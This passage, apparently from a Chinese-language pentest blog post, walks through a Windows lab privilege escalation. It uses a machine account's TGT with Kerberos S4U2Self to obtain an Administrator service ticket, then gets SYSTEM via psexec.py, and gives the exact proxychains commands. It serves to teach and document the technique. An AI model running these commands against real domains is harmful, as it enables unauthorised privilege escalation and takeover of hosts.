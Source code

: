 ![](/assets/posts/2022-05-02-privilege-escalation-ntlmrelay2self-over-http-webdav/image-20220515104039699.png)

### S4U To SYSTEM

有了 WIN10-CLIENT1 账户的 TGT 后，我们可以通过 Kerberos 的 S4U2Self 扩展协议，为域管理员用户申请针对 WIN10-CLIENT1 上 CIFS 服务的 ST 票据，如下图所示。

```bash
proxychains4 python3 ~/PKINITtools/gets4uticket.py kerberos+ccache://pentest.com\\win10-client1\$:tE3so2th.ccache@dc01.pentest.com cifs/win10-client1.pentest.com@pentest.com Administrator@pentest.com Administrator.ccache -v
```

![](/assets/posts/2022-05-02-privilege-escalation-ntlmrelay2self-over-http-webdav/image-20220515104132460.png)

然后，我们通过设置环境变量 `KRB5CCNAME` 来使用 Administrator 用户的票据，并通过 psexec.py 获取 WIN10-CLIENT1 的 SYSTEM 权限，如下图所示。

```bash
export KRB5CCNAME=Administrator.ccache
proxychains4 python3 psexec.py -k pentest.com/Administrator@win10-client1.pentest.com -no-pass
```
